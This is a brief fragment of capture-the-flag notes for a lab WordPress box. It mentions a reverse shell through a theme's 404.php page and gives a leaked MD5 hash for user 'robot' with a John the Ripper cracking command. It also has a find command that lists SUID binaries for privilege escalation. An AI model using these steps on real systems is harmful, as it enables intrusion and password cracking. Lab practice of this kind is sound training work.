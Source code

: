 
### access to wp-admin/theme for reverse shell.

`http://10.10.242.242/wp-admin/theme/Twenty%20Fifteen.404.php`

robot:c3fcd3d76192e4007dfb496cca67e13b (raw-md5)

`john hash --wordlist=/usr/share/wordlists/rockyou.txt -format=raw-md5`

### print out any executables which have SUID bit set.

`find / -perm -u=s -type f 2>/dev/null`
